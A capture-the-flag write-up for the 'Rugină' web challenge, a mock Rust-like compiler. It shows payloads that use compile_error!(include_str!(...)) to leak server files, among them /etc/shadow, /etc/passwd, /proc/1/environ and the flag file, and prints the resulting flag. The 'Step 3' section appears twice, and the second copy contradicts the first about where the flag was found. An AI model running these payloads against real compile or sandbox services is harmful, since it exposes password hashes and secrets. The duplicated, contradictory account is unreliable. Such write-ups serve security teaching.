




# Rugină - CTF Challenge Writeup

## Challenge Description

**Challenge Name:** Rugină  
**Points:** 100  
**Category:** Web/Programming  
**Author:** thek0der

_"Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you."_

Rugină (Romanian for "Rust") is a mock programming language that appears to have a web-based compiler interface. The challenge involves exploiting the compiler to read files from the server filesystem.

## Initial Analysis

When accessing the challenge, we're presented with a web interface that allows us to write "Rugină code" and execute it. The interface shows:

- A text area to input code
- A "Rulează Codul" (Run Code) button
- An output section showing compilation results

The key insight is that this appears to be a Rust-like language where we can potentially use compilation errors to leak file contents.

## Solution Approach

### Step 1: Understanding the Error Mechanism

From the interface, it's clear that we can write code that intentionally causes compilation errors. The technique we'll use involves the `compile_error!()` macro combined with `include_str!()` to read files and display their contents in error messages.

### Step 2: File System Exploration

I started by exploring various system files to understand the scope of the file inclusion vulnerability:

#### Attempt 1: `/etc/group`

```rust
principal() {} compile_error!(include_str!("/etc/group"));
```

**Result:** Successfully read `/etc/group` file, showing system groups.



#### Attempt 2: `/etc/shadow`

```rust
principal() {} compile_error!(include_str!("/etc/shadow"));
```

**Result:** Successfully read `/etc/shadow` file, showing system user password hashes.



#### Attempt 3: `/etc/passwd`

```rust
principal() {} compile_error!(include_str!("/etc/passwd"));
```

**Result:** Successfully read `/etc/passwd` file, revealing system users and their information.



#### Attempt 4: `/proc/1/environ`

```rust
principal() {} compile_error!(include_str!("/proc/1/environ"));
```

**Result:** Successfully read the environment variables of process 1.


### Step 3: Finding the Flag

#### Final Attempt: `/app/server/flag.txt` ✓

```rust
principal() {}
compile_error!(include_str!("/app/server/flag.txt"));
```

**Result:** Success! The flag was found in the final attempt.



The output showed:

```
error: ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}
--> main.rs:2:1
```

### Step 3: Finding the Flag

After testing various system files, I returned to check common flag locations more carefully.

#### Final Successful Attempt: `/app/server/flag.txt`

```rust
principal() {}
compile_error!(include_str!("/app/server/flag.txt"));
```

**Result:** Success! The flag was actually in the first path I tried, but I initially missed it in the cryptographic hash error message.


Looking more carefully at the error output, the flag was embedded within the compilation error message!

## Key Techniques Used

1. **Compile-time File Inclusion**: Using `include_str!()` to read files at compilation time
2. **Error-based Information Disclosure**: Using `compile_error!()` to display file contents in error messages
3. **Linux File System Knowledge**: Understanding common locations for sensitive files (`/etc/passwd`, `/etc/shadow`, `/proc/*/environ`)

## Flag

The flag was found in `/app/server/flag.txt` and was embedded in the compilation error message:

**Flag:** `ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}`

## Conclusion

This challenge demonstrated how a seemingly harmless "compiler" interface can be exploited to read arbitrary files from the server filesystem. The key was understanding that Rust-like syntax could be used with `compile_error!` and `include_str!` to turn compilation errors into an information disclosure vector.

The solution path involved:

1. Recognizing the compilation error exploitation potential
2. Exploring various system files to understand the vulnerability scope
3. Finally discovering the flag in `/app/server/flag.txt` after systematic exploration

**Final Flag:** `ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}`
